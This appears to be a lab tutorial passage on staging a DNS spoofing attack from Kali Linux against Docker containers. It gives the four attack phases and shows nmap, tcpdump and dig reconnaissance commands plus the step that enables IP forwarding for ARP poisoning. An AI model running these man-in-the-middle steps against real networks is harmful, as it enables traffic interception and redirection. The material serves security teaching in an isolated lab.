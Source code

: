 **Attack Phases Explanation:**
This timeline shows the four main phases for executing a DNS Spoofing attack from Kali Linux against the Docker containers:

- **Phase 1 - Network Reconnaissance**: Discover container topology and identify attack targets
- **Phase 2 - ARP Poisoning**: Position Kali Linux as man-in-the-middle between containers
- **Phase 3 - DNS Spoofing**: Intercept and modify DNS queries from victim container
- **Phase 4 - Attack Monitoring**: Observe traffic redirection and attack success

Each phase leverages Kali Linux's powerful network tools to manipulate the containerized environment.

#### 2.1 Phase 1: Network Reconnaissance and Analysis

<div class="step-animation">
<strong>Step 1:</strong> Discover Container Network Topology
</div>

```bash
# From Kali Linux - Scan the Docker network
nmap -sn 192.168.1.0/24

# Detailed scan of active containers
nmap -sV -O 192.168.1.4,192.168.1.10,192.168.1.30,192.168.1.100

# Check ARP table to see current MAC addresses
arp -a | grep "192.168.1"

# Monitor current network traffic
sudo tcpdump -i eth0 -n net 192.168.1.0/24
```

<div class="step-animation">
<strong>Step 2:</strong> Analyze Container Communications
</div>

```bash
# Monitor DNS traffic from victim container
sudo tcpdump -i eth0 -n port 53

# Monitor HTTP traffic patterns
sudo tcpdump -i eth0 -n port 80 and host 192.168.1.30

# Test current DNS resolution behavior
nslookup goodserver.com 192.168.1.4
dig @192.168.1.4 goodserver.com
```

#### 2.2 Phase 2: ARP Poisoning Setup

<div class="step-animation success">
<strong>Step 1:</strong> Enable IP Forwarding on Kali Linux
</div>

```bash
# Enable IP forwarding to maintain connectivity
echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward

# Verify IP forwarding is enabled
cat /proc/sys/net/ipv4/ip_forward
```
